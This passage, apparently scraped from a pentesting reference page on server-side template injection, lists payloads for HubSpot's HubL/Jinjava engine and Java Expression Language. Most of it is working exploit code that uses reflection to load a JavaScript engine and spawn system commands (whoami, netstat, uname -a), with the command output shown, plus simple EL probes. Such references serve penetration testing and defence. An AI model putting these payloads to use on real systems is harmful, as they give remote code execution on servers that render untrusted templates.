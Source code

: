 ```

{% %} and {{ }} blocks
{% set ji='a'.getClass().forName('com.hubspot.jinjava.Jinjava').newInstance().newInterpreter() %}


{{ji.render('{{1*2}}')}}
//Here, I created a variable 'ji' with new instance of com.hubspot.jinjava.Jinjava class and obtained reference to the newInterpreter method. In the next block, I called the render method on 'ji' with expression {{1*2}}.

//{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}
//output: xxx

//RCE
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}
//output: java.lang.UNIXProcess@1e5f456e

//RCE with org.apache.commons.io.IOUtils.
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
//output: netstat execution

//Multiple arguments to the commands
Payload: {{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
//Output: Linux bumpy-puma 4.9.62-hs4.el6.x86_64 #1 SMP Fri Jun 1 03:00:47 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

**More information**

- [https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html](https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html)
    

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#expression-language-el-java)

Expression Language - EL (Java)

- `${"aaaa"}` - "aaaa"
    
- `${99999+1}` - 100000.
    
- `#{7*7}` - 49
    
- `${{7*7}}` - 49
    
- `${{request}}, ${{session}}, {{faceContext}}`
    